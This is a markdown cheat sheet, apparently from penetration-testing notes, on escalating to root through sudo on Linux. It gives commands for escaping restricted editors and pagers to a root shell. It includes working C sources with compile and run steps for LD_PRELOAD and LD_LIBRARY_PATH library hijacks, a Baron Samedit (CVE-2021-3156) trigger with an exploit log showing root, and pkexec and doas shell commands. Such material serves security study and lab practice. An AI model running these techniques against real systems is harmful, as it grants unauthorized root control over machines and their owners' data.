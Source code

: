 # Sudo

* [Enumerate](#enumerate)
* [Limited Sudo](#limited-sudo)
* [LD_PRELOAD](#ld_preload)
* [LD_LIBRARY_PATH](#ld_library_path)
* [Sudo Exploits](#sudo-exploits)
* [pkexec](#pkexec)

## Enumerate

If you can read `/etc/sudoers`, then do so to figure out the sudo permissions of users on the machine.

Otherwise check sudo privileges (often requires password):
```bash
sudo -l
```

Execute as another user:
```bash
# impersonate another user with sudo
sudo -u <user> <command>
sudo -u someuser whoami

# shell as another user
sudo -u someuser /bin/bash
```

Root shell (one of these):
```bash
# gain root through sudo
sudo su -

# keep current environment when switching to root
sudo su

# alternative ways to elevate to root
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

## Limited Sudo

If your sudo privileges are restricted to some specific programs, then look for possible escape methods:

**GTFOBins** - https://gtfobins.github.io/

### Examples

In text editors like `less` or `more` you can often open a shell via the interactive command interface in the editor:
```bash
less <somefile>
!/bin/sh
# spawns root sh shell
```

Vi and Vim:
```bash
sudo vi
:set shell=/bin/sh
:shell
# spawns root sh shell
```

Emacs:
```bash
sudo emacs -Q -nw --eval '(term "/bin/sh")'
# spawns root sh shell
```

A lot of edtiors that normally aren't interactive will drop into an interactive mode if the window size is too small, so try lowering the windows size if you cannot access commands.

### apt-get

This is an example of using the above indirectly, which can be quite common in different applications. Look for ways to make a sudo'd application run a pager like less.

The default pager should be `less' for this to work. Also you need to find an updated apt package that has a changelog.

```bash
sudo apt-get changelog apt
...
!/bin/sh
# spawns root sh shell
```

## LD_PRELOAD

If you do sudo -l and see the following:
```bash
env_keep+=LD_PRELOAD
```

Then you can easily PrivEsc to root.

Create a shared object (.so) binary:

File `pe_preload.c`:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile:
```bash
gcc -fPIC -shared -nostartfiles -o /tmp/pe_preload.so pe_preload.c
```

Now if you run any program as sudo, you can pop a root shell:

```bash
sudo LD_PRELOAD=/tmp/pe_preload.so ping

# root shell pops
```


## LD_LIBRARY_PATH

Unlike LD_PRELOAD, this is not an unconditional winning condidtion. This will work if the program you can execute uses one or more shared libraries.

If you do sudo -l and see the following:
```bash
env_keep+=LD_LIBRARY_PATH
```

Then you might be able to gain root by replacing a shared object library (.so) used by one of the programs we can run as sudo.

Use the `ldd` command to enumerate the shared object libraries used by a binary.

```bash
ldd /usr/sbin/apache2

# output
    ...
    librt.so.1 => /lib/x86_64-linux-gnu/librt.so.1 (0x00007fa9e2b33000)
    libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007fa9e2af8000)
    libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fa9e2af3000)
    ...
```

If there are libs, then this should work. Pick one of them and create a shared library binary with the same name (here libcrypt.so.1).

pe_lib.c:

```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile like the previous example:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC pe_lib.c
cd /tmp/
```

Then run the relevant command with the LD_LIBRARY_PATH parameter:

```bash
sudo LD_LIBRARY_PATH=. apache2

# rootshell spawns here
```

## Sudo Exploits

All of the above are basically ways to use sudo as intended by the creators (it's not a bug, it's a feature). But there were also a variety of vulnerabilities in sudo itself over the years.

Enumerate the sudo version with:

```bash
sudo -V
```

Search for exploits:
```bash
searchsploit sudo
searchsploit sudo <version_num_here>
```

There is also a dedicated toolset for identifying sudo vulnerabilities:

* "sudo killer" by TH3xACE - https://github.com/TH3xACE/SUDO_KILLER



### CVE-2021-3156 - Baron Samedit

Test for sudo vulnerability 

sudoedit -s '\' `perl -e 'print "A" x 65536'`
sudoedit -s '\' `python3 -c 'print("A" * 65536)'`


If the result is a memory corruption error, then the machine is vulnerable

```bash
malloc(): corrupted top size
Aborted
```

https://github.com/worawit/CVE-2021-3156

```bash
shaun@doctor:/tmp/blub/CVE-2021-3156$ python3 exploit_nss.py
python3 exploit_nss.py
# whoami
whoami
root

```


## pkexec

Pkexec is similar to sudo, in that it lets you execute commands as another user (usually root) if you are part of a whitelisted group (usually 'admin' or similar).

If there is the pkexec SUID binary on the machine (check the SUID notes for search commands), then check the config:

```bash
cat /etc/polkit-1/localauthority.conf.d/*
```

If one of your groups is listed there then you can do:

```bash
pkexec "/bin/sh" #You will be prompted for your user password

# root shell pops here
```

## doas

If you can't run su or sudo and you cannot elevate despite having the root password, then sometimes you can find this (especially on BSD):

```bash
doas -u root /bin/sh 
# type root password here
```




